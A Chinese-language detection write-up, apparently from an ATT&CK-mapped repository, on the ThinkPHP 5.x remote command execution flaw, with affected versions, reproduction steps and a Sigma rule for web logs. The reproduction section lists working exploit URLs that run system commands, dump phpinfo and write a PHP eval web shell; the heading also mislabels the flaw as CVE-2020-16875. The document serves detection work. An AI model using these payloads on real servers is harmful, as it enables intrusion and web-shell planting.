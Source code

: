 # T1190-Thinkphp 5.x远程命令执行漏洞检测

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使对手获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## CVE-2020-16875漏洞

### 简介

ThinkPHP官方2018年12月9日发布重要的安全更新，修复了一个严重的远程代码执行漏洞。该更新主要涉及一个安全更新，由于框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的getshell漏洞，受影响的版本包括5.0和5.1版本，推荐尽快更新到最新版本。

### 影响版本

5.x < 5.1.31, <= 5.0.23

## 测试案例

漏洞分析及漏洞利用可参考Thinkphp 5.x远程命令执行漏洞：

<https://www.cnblogs.com/backlion/p/10106676.html>

## 检测日志

HTTP_log，访问日志也可以

## 测试复现

1.利用system函数远程命令执行

```yml
http://localhost:9096/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```

2.通过phpinfo函数写出phpinfo()的信息

```yml
http://localhost:9096/public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```

3.写入shell:

```yml
http://localhost:9096/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo%20^%3C?php%20@eval($_GET[%22code%22])?^%3E%3Eshell.php
```

或者

```yml
http://localhost:9096/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=../test.php&vars[1][]=<?php echo 'ok';?>
```

## 测试留痕

暂无

## 检测规则/思路

### sigma规则

```yml
title: Thinkphp 5.x远程命令执行漏洞
description: 通过访问日志orHttp.log检测Thinkphp 5.x远程命令执行漏洞利用行为
translator: 12306Bro
date: 2020/12/12
status: experimental
references:
    - https://www.cnblogs.com/backlion/p/10106676.html
logsource:
    category: webserver
detection:
    selection:
        c-uri:
            - '/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array'
    condition: selection
fields:
    - c-ip
    - c-dns
falsepositives:
    - Unknown
level: critical
```

## 备注

在具体业务场景下遇到，特记录。可以根据具体payload来判断是否为真实攻击。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

Thinkphp 5.x远程命令执行漏洞：

<https://www.cnblogs.com/backlion/p/10106676.html>